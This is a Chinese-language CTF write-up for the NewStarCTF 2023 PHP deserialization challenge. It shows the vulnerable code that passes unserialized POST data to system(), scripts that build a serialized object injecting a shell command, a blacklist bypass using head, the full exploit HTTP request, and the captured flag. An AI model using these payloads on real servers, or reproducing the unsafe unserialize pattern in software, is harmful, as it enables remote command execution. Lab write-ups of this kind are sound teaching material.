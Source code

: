 ```yaml
---
title: NewStarCTF 2023 Unserialize？
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，看到如下代码，进行代码审计

```php
<?php
highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    private $cmd;

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

@unserialize($_POST['unser']);
?>
```

思路很明确，我们需要利用 PHP 的反序列化漏洞，所以我们需要自己重现这个对象

## 编写对象生成脚本

打开 IDE（我用的是 PhpStorm），输入如下代码，这个代码的作用是帮我们生成一个 `$cmd` 具有有效值的 `evil` 对象，将其序列化（即 `serialize()`）后就会输出对象字符串

```php
<?php
class evil {
    private $cmd="ls ../../../"; // 这个 ls ../../../ 是试出来的

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

$ev = new evil();
echo serialize($ev);
```

运行过后，得到字符串 `O:4:"evil":1:{s:9:" evil cmd";s:12:"ls ../../../";}`

但是这里有一个重要的点，` evil cmd` 中间有两个空格，如果你使用了 PhpStorm，会看到两个方框乱码，实际上，这个位置我们需要填上 `%00`，表示 `$cmd` 是 `evil` 类的 `private` 属性，所以最后我们的字符串应该是 `O:4:"evil":1:{s:9:"%00evil%00cmd";s:12:"ls ../../../";}`

我们向靶机通过 POST `unser` 传入这个字符串

![](https://z1.ax1x.com/2023/10/13/pipp4xI.png)

发现了关键信息 `th1s_1s_fffflllll4444aaaggggg`

## 再次编写生成脚本

这个 `th1s_1s_fffflllll4444aaaggggg` 应该就是文件了，但是题目里面对 `cat|tac|more|tail|base` 都进行了过滤，如果你去百度一下或者问问 ChatGPT，他肯定会告诉你，Linux 里面还能用 `head` 来读取文件，即

```
head ../../../th1s_1s_fffflllll4444aaaggggg
```

于是我们重新编写脚本

```php
<?php
class evil {
    private $cmd="head ../../../th1s_1s_fffflllll4444aaaggggg";

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

$ev = new evil();
echo serialize($ev);
```

生成出来的字符串为 `O:4:"evil":1:{s:9:"%00evil%00cmd";s:43:"head ../../../th1s_1s_fffflllll4444aaaggggg";}`

## 取得 Flag

再次通过 `unser` 传入，即可得到 Flag

最终的 Http 请求如下

```http
POST / HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

unser=O:4:"evil":1:{s:9:"%00evil%00cmd";s:43:"head ../../../th1s_1s_fffflllll4444aaaggggg";}
```

![](https://z1.ax1x.com/2023/10/13/pippOiQ.png)

最终得到的 Flag 为 `flag{2dafcaae-edd2-4604-a4ba-ce47d7fb5c59}`